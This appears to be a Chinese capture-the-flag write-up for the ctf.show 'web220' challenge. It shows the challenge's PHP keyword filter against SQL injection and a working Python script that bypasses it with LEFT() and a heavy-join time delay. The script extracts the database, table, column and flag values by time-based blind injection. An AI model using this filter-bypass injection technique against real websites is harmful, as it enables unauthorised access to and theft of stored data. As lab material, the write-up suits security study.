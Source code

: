 ## web220  过滤ascii substr mid concat

```php
    //屏蔽危险分子
    function waf($str){
        return preg_match('/sleep|benchmark|rlike|ascii|hex|concat_ws|concat|mid|substr/i',$str);
    }   
```

这里发现过滤了很多东西

我们使用left 绕过这些过滤

这里看yu师傅的另一个写法

```cobol
import string
 
import requests
 
url ="http://7f721d88-a3c0-4870-b78d-b062df2f81b0.challenge.ctf.show/api/"
 
# payload = "1) or if((left((select database()),{0})='{1}'),{2},0)-- +"
# payload = "1) or if((left((select table_name from information_schema.tables where table_schema=database() limit 0,1),{0})='{1}'),{2},0)-- +"
# payload = "1) or if((left((select column_name from information_schema.columns where table_name='ctfshow_flagxcac' limit 1,1),{0})='{1}'),{2},0)-- +"
payload = "1) or if((left((select flagaabcc from ctfshow_flagxcac limit 0,1),{0})='{1}'),{2},0)-- +"
bypass = """(SELECT count(*) FROM information_schema.tables A, information_schema.schemata B, information_schema.schemata D, information_schema.schemata E, information_schema.schemata F,information_schema.schemata G, information_schema.schemata H,information_schema.schemata I)"""
uuid = "_1234567890{}-qazwsxedcrfvtgbyhnujmikolp,"
flag =''
i = 1
while 1:
    for j in uuid:
        flag +=j
        payload1= payload.format(i,flag,bypass)
        # print(payload1)
        data = {
            'ip':payload1,
            'debug':'1'
        }
        try:
            r = requests.post(url, data=data, timeout=3)
            flag = flag[:-1]
        except Exception as e:
            print(flag)
            i+= 1
```

其实就是很少的循环 代码量少了 并且通过捕获异常 输出flag 所以这个代码 更舒服点
